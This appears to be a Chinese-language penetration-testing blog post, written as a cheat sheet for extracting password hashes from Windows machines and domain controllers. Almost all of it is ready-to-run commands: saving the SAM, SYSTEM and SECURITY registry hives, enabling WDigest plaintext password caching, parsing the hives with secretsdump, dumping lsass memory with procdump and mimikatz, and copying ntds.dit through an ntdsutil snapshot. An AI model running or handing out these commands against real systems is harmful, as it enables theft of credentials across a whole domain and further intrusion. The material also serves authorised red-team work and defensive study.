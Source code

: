 ```yaml
---
title: 离线提取域控HASH的方法
comments: true
date: 2022-02-08 11:53:07
tags: ["渗透测试", "提取hash"]
categories:
- 渗透测试
cover:
top_img:
description:
---
```




## 1.注册表提取

提取文件，Windows Server 2003或者Win XP 及以前需要提升到system权限，以后只要Administrator权限即可。

```verilog
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security secruity.hive
```





本地获取：

```dockerfile
# 如果要提取明文，请修改注册表
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

# 破解hash
python ./secretsdump.py -sam ~/Desktop/sam.hive  -security ~/Desktop/security.hive -system ~/Desktop/system.hive  LOCAL
```



## 2.lsass.exe提取

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz#privilege::debug
mimikatz#sekurlsa::minidump lsass.dmp
mimikatz#sekrulsa::logonpasswords full  

```









## 3.ntds.dit提取

```bash
ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil snapshot "mount {GUID}" quit quit
copy MOUNT_POINT\windows\ntds\ntds.dit c:\temp\ntds.dit
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit

```













